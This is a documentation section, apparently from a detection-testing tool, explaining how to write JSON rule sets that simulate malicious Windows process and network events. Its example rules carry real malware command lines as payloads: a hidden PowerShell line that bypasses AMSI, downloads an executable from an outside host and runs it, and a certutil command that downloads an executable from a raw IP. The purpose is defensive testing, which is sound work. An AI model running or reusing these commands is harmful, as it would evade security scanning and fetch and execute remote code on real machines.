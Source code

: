 # Writing sets
Writing a custom `rule set` is very easy. These are based on `json` format and you only need to put your rules into the `rules` child.

Also you can add extra info like:

| field | content |
| --- | --- |
| `name` | If you wan't to give your set a name. |
| `version` | Don't forget to update the versions. |
| `author` | Some credits for the authors. |
| `description` | Describe the set or add some references. |

###### header example
```
{
  "name": "rule set name",
  "version": "version number",
  "author": "author",
  "description": "simple description",
  "rules": {
  }
}
```
Now we can start writing some rules...
```
"powershell_malware": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Process Create",
  "description": "I just saw this on https://www.hybrid-analysis.com/sample/fa38a52f6500cd6f16adc1d2a30193240a95761089e2636c02514522b233737d?environmentId=100",
  "payload": {
    "Image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "CommandLine": "powershell.exe -WindowStyle Hidden -noprofile [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);If (test-path $env:APPDATA + '\\th41.exe') {Remove-Item $env:APPDATA + '\\th41.exe'}; $OEKQD = New-Object System.Net.WebClient; $OEKQD.Headers['User-Agent'] = 'USR-KL'; $OEKQD.DownloadFile('http://kikkerdoc.com/home/kikkerdo/oo.exe', $env:APPDATA + '\\th41.exe'); (New-Object -com Shell.Application).ShellExecute($env:APPDATA + '\\th41.exe'); Stop-Process -Id $Pid -Force"
  }
},
"certutil_download_command": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Process Create",
  "description": "Seems like malware is using this.",
  "payload": {
    "Image": "C:\\Windows\\System32\\certutil.exe",
    "CommandLine": "certutil.exe -urlcache -split -f http://185.189.58.222/bam.exe"
  }
},
"certutil_download_command": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Network connection detected",
  "description": "Also we can test it via network activity.",
  "payload": {
    "Image": "C:\\Windows\\System32\\certutil.exe",
    "DestinationIp": "185.189.58.222"
  }
}
```
Then you need to put it into `rules` and save the file. You can test the `rule set` with:
```commandline
> malwless.exe -r rule_set_file.json
```
